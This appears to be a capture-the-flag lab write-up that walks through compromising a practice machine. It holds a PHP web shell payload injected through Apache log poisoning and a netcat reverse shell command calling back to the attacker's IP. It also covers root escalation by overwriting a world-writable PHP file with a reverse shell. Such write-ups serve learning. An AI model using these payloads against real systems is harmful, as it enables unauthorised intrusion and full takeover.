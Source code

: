 GoBuster scan &rarr; `gobuster dir -u http://192.168.124.72 -w /home/tanq/installations/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,php`

Nothing interesting was revealed in any of the ports.

## Exploitation

### LFI

The web server running at port 8593 has the ability to list books via PHP. This is done via a get parameter. Trying LFI with `../../../../../../etc/passwd` confirms LFI and gives the result of the file to list possible users which includes `www-data`, `miguel` and `root`.

### Transition LFI to Apache log poisoning

The default apache error logs are located at `/var/log/apache2/error.log`. This is readable on the browser because of the LFI vulnerability. Therefore, adding php code to an attempt would add it to the error log and subsequently render it on the webpage.

Therefore visiting the url `http://192.168.124.72/<?php system($_GET['cmd']);?>` should add it to the error log, thereby giving an RCE for the get request parameter in the LFI url. The access via the browser encodes the special characters, therefore a burp repeater request modification should do the trick.

### Exploiting the RCE

With the php payload injected into the access log, the lfi url can be modified to add the parameter value for the `cmd` variable. Testing with `id` works. Next, this can used to test if nc, wget, etc. exist on the system which can be used to create a shell payload. This is the RCE on the server.

Both netcat and bash shell exist, therefore sending a payload `nc -e /bin/bash 192.168.49.124 3002` with a listener active on the local machine gives a shell with the user `www-data`.

## Privilege Escalation

Looking at the setuid files and directories using `find / -perm -u=s 2>/dev/null`, there is a server running at `/var/tmp/sv` which is a directory that is owned by `root` and is world-writable.

This has an `index.php` file which just prints that the site is under construction. This cannot be observed from any of the ports enumerated above. Checked the status of this under processes using `ps aux | grep root | grep sv`. This confirms that the server is actually running, but on localhost only. Therefore, this php file can be edited to have a payload that connects back to the attacker machine to get a reverse shell. Due to the permissions, this would be the root shell.

The pentest monkey reverse shell is uploaded to the server and the contents of the `index.php` file are overwritten with them. Then the execution can be done as follows on the low privileged shell &rarr; `curl http://localhost:57/index.php`

This gives a shell as the `root` user and thus the root flag as well.

---

# Sumo
